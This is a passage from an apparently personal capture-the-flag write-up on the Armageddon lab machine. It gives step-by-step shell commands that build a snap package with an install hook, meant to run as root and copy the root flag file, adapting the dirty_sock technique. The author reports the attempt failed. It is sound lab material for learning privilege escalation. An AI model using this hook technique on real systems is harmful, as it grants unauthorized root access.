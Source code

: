 Interesting. True enough, the snap version is not vulnerable:

```bash
[brucetherealadmin@armageddon tmp]$ snap version
snap    2.47.1-1.el7
snapd   2.47.1-1.el7
```

We were right that we have to do some manual stuff. Let's recreate the exploit, using @init_string's example of an empty snap script with an install hook.

## Customising the Exploit

I think the path here will be to instead run `snap install` with root privileges, and hope that this runs the install hook.

This didn't work for me, due to hardware issues - however, I'm pretty sure my steps were correct. Nevertheless, if you don't want to read a failed attempt you can [[20 - SSH as brucetherealadmin#Repurposing the Dirty Sock Payload|skip to the final exploit]].

I don't want to create a user that anyone can log in as, so I'll try to rewrite the exploit to just read the root flag.

```bash
## Install necessary tools
sudo apt install snapcraft -y

## Make an empty directory to work with
cd /tmp
mkdir dirty_snap
cd dirty_snap

## Initialize the directory as a snap project
snapcraft init

## Set up the install hook
mkdir snap/hooks
touch snap/hooks/install
chmod a+x snap/hooks/install

## Write the script we want to execute as root
cat > snap/hooks/install << "EOF"
#!/bin/bash

cat /root/root.txt > /tmp/gottem
EOF

## Configure the snap yaml file
cat > snap/snapcraft.yaml << "EOF"
name: dirty-sock
version: '0.1'
summary: Empty snap, used for exploit
description: |
    See https://github.com/initstring/dirty_sock

grade: devel
confinement: devmode

parts:
  my-part:
    plugin: nil
EOF

## Build the snap
snapcraft
```
